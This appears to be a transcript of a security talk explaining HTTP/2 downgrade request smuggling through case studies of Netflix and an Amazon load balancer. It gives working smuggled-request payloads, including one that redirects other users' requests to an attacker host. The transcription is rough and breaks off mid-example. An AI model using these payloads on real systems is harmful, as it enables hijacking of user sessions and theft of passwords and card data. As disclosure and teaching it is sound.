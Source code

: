 ### Case study Netflix
so let's begin with an extremely simple  case study the hd2 rfc says  that you're allowed to send a content length header over http 2 even though  it's not required and is almost  pointless, they say you're allowed to send it  provided that it's correct, so what could possibly go wrong with  this? well, netflix used the neti java library and  they forgot to verify that the content length was correct. so if i send a http2 request like this then when downgraded  it would look like this:
Front-end
```
:method           POST
:path             /n
:authority        netflix.com
content-length    4
abcdGET /n HTTP/1.1
Host: 02.rs?x.netflix.com
Foo:bar
```
**Back-end**
```
POST /n HTTP/1.1
Host: www.netflix.com
Content-Length: 4

abcdGET /n HTTP/1.1
Host: 02.rs?x.netflix.com
Foo: bar
```
and the data shown in orange (la request siguiente a abcd) would be  prepended to the start of the next request coming from someone else to hit  the back-end and would thereby redirect them to my server.
**Back-end**
```
POST /n HTTP/1.1
Host: www.netflix.com
Content-Length: 4

abcdGET /n HTTP/1.1
Host: 02.rs?x.netflix.com
Foo: barGET /anything HTTP/1.1
Host: www.netflix.com
```
```
:method    GET
:path      /anything
:authority netflix.com
```
i could just run this in a loop in real time and  effectively redirect everyone browsing their site and potentially  hijack script imports ,thereby getting persistent control over their  account, and being able to do stuff like maybe steal plain text passwords and  credit card numbers. for this i got a 20 000 bounty of netflix and a patch has been applied to upstream netflix.  after that motivating start let's move on to something slightly more complex
### Case study amazon
the http2 rfc says any message containing connection specific header fields, must  be treated as malformed, but it's kind of vague about what happens if  you don't do this so i'm going to fill in the blanks. quite a few servers don't do this,  one on such server is amazon's application load balancer, it's it's  it's now being patched but at the time you could exploit tons of servers like  this and one such server was it's law enforcement portal.
*any message contining connection-specific header fields MUST be treated as malformed*
```Front-end
	:method        POST
	:path          /dentify
:autorithy         id.b2b.oath.com
transfer-encoding  chunked
0

```